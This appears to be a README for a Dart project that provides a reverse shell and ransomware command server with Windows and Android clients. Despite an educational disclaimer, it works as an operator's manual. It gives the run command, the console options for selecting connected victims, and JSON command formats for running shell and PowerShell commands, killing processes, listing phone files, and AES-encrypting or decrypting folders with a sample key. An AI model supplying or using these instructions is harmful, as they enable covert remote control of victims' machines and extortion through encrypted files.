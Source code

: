 # Reverse shell & Ransomware server and clients using Dart
This project demonstrates a proof-of-concept implementation of a Reverse Shell and Ransomware Server and Clients using Dart. The purpose of this project is educational, showcasing how reverse shells and ransomware work in a controlled environment. It is not intended for malicious use.

# Features
- Reverse Shell: Allows the server to execute commands on the client machine.
- Ransomware: Encrypts/Decrypts files on the client machine once connected to the server using Advanced Encryption Standard (AES).
- Cross-Platform: Windows version and android version.
 
# Disclaimer
This project is for educational purposes only. The author does not condone the use of this software for malicious purposes. Use this software responsibly and only in environments where you have explicit permission to do so.

#### This project was inspired by "Joao-b4".

# Usage 

        Run the server: In the terminal/cmd, go to server/bin folder, and run the command "dart run main.dart"
        
        Options:
        /list - List all of the Clients connected
        /set id - Enter the command interface for the selected client
        /exit - Exit to command interface

        Commands Avaible:
        * Get Information from System:  {"id": "1"} 
        * Run Command on System:  {"id": "2", "parameter": "ipconfig"}
        * Run Command on System through powershell *(Windows only): {"id": "3", "parameter": "ls"}
        * Kill Process in the System: {"id": "4", "parameter": "4517"} 
        * List phone files: {"id":"5"}
        * Encrypt files from selected path to .mart: 
          ** Desktop: {"id": "6", "path":"C:\Users\docteur\Desktop\tet", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"} 
          ** Phone: {"id": "6", "path": "storage/emulated/0/Documents/", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"}     

        * Decrypt files(.MART) from selected path: 
          we are using AES, hence the need of the key in the decryption.
          ** Desktop: {"id": "7", "path":"C:\Users\docteur\Desktop\tet", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO" } 
          ** Phone: {"id": "7", "path": "storage/emulated/0/Documents/", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"}     
          
